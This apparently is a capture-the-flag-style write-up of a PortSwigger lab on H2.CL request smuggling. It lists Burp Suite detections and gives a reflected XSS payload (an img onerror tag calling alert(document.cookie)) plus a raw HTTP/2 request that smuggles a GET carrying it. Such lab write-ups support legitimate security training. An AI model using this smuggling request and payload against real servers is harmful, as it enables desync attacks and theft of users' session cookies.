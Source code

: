 # [Lab: H2.CL request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

## Detected H2.CL

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension: detected `Issue: CL.0 desync: h2CL|GET /favicon.ico`

## Detected refected xss

`/post/comment/confirmation?postId="><img%20src=1%20onerror=alert(document.cookie)>`

## Solutions

setting repeater to work with http 2:

![settings.png](./../img/lab-12-settings.png)

H2.CL smuggling:

```http
POST / HTTP/2^M$
Host: 0a1500370309a192c65b9aea00cc004d.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 0^M$
^M$
GET /post/comment/confirmation?postId="><img%20src=1%20onerror=alert(document.cookie)> HTTP/1.1^M$
X-YzBqv: 
```
